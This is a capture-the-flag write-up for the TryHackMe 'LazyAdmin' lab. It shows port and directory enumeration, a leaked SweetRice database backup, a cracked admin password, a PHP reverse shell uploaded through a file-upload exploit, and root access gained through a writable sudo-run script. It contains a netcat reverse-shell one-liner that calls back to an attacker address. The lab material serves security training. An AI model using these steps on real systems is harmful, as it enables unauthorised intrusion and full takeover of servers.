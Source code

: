# [LazyAdmin - Easy linux machine to practice your skills](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

### Nmap-scan
```
kali@kali:~/CTFs/lazyadmin$ nmap -sC -sV -Pn $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 08:46 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```
- open ssh port
- open http port, httpd seems to be using the default config

**Nmap enumeration scan**
```
kali@kali:~$ nmap --script=http-enum $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 09:10 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /content/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 5.84 seconds
```

### Gobuster
1. DNS-scan
```
kali@kali:~$ gobuster dns -d $TARGET_IP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
                                                                                                                                       
kali@kali:~$ 
```

2. DIR-scan
```
kali@kali:~$ gobuster dir -u $TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> <TARGET-IP>/content/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Inspecting the HTTP-website
- default Apache2 Ubuntu landing page

#### Inspecting /content
- indicates 'SweetRice CMS' is used

![sweetrice](images/content_page.png)

## Exploiting SweetRice CMS
- [SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) -> allows us to upload a reverse-shell, valid login credentials required
- [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) -> */content/inc* is accessable, provides backup data

### Reviewing the backup file

![backup_disclosure](images/mysql_backup.png)

```
kali@kali:~/CTFs/lazyadmin/mysql_backup$ curl <TARGET-IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o mysql_backup.sql
```

![mysql_backup](images/sqlfile.png)

- looks like the username is "manager" and the password is given as md5-hash
- https://md5decrypt.net/en/ -> "Password123"

### File-Upload vulnerability

1. [prepare a reverse shell](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads)
2. get the exploit up and running (https://www.exploit-db.com/exploits/40716)
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : <TARGET-IP>/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://<TARGET-IP>/content/attachment/php-reverse-shell.php
```

- file does not appear in */content/attachment/*, the WebServer most likely filters *.php files
- uploading the script as *.phtml works

![upload](images/revshell.png)

3. Set up a listener and execute the uploaded script
```
kali@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 37486
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:58:23 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm-256color
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$   
```

## Catching the user-flag
```
cd /home/itguy && cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
www-data@THM-Chal:/home/itguy$ 
```

## Catching the root-flag
```
ww-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
- backup.pl can be executed as root via `sudo` 
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- if */etc/copy.sh* is writeable, it can be used to create another reverse-shell (as root)
```
www-data@THM-Chal:/home/itguy$ cd /etc && ls -lisa | grep copy.sh
1050508  4 -rw-r--rwx   1 root root      83 May 15 15:32 copy.sh
```
- it is writeable
```
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER-IP> 1337 >/tmp/f
www-data@THM-Chal:/etc$ 
```
-> setup a listener `nc -lvnp 1337` on the attacker-machine and `www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl`

```
kali@kali:~$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 50204
root@THM-Chal:/etc# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@THM-Chal:/etc# 
```
